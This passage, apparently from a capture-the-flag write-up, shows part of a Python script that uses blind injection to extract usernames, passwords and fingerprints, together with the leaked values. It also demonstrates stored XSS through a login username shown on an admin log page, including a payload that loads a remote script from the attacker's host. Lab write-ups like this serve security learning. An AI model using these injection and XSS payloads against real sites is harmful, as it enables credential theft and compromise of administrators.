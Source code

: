     
    print("Usernames:")
    get_next_char('username', '', string.ascii_lowercase + string.digits)
    print("\rPasswords:")
    get_next_char('password', '', string.ascii_lowercase + string.digits + '#$&+=<>[]')
    print("\rFingerprints:")
    get_next_char('fingerprint', '', 'abcdef' + string.digits)
    print("\x1b[2K")
    

I came away with two usernames, two passwords, and two fingerprints:

    
    
    oxdf@hacky$ python hqli.py   
    Usernames:                                            
    admin                                                                
    micheal1235
    Passwords:                          
    lwg7gur1emx7unxsjxqz
    o9vb0kb9kuzj1dtxzlv8
    Fingerprints:                                      
    7ef52c251f8044cb187013992891d0e58ce9194de7f535b1b4fa6bbfe08678f6
    99cd639f9e163767115029a31acd97bfa19344b6202ac0b8bdd586e46f436666  
    

I’m not sure what these passwords are. They don’t work as plain-text
passwords. They are case-insensitive. – case insensitive - username input is
being lowercased!

The fingerprints are not MD5s, which suggests that perhaps they are hashed
again before storing them in the database.

### XSS

#### Identify

I’ll note that my username on the 8080 login is logged in a readable way.
There’s an XSS vulnerability in this `/admin` page, and it’s possible that the
admin is viewing them.

So if I log in with a `<script>` tag in my username:

![image-20211106104106088](https://0xdfimages.gitlab.io/img/image-20211106104106088.png)

When I visit `/admin/view/auth.log`, there’s a popup:

![image-20211106104037358](https://0xdfimages.gitlab.io/img/image-20211106104037358.png)

#### Identify Admin XSS

I can load remote scripts as well, like with a username of `<script
src="http://10.10.14.6/xss.js"></script>`. On entering that and then viewing
the log, I see a connection at my webserver:

    
    
    oxdf@hacky$ python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.14.6 - - [03/Nov/2021 08:44:20] code 404, message File not found
    10.10.14.6 - - [03/Nov/2021 08:44:20] "GET /xss.js HTTP/1.1" 404 -
    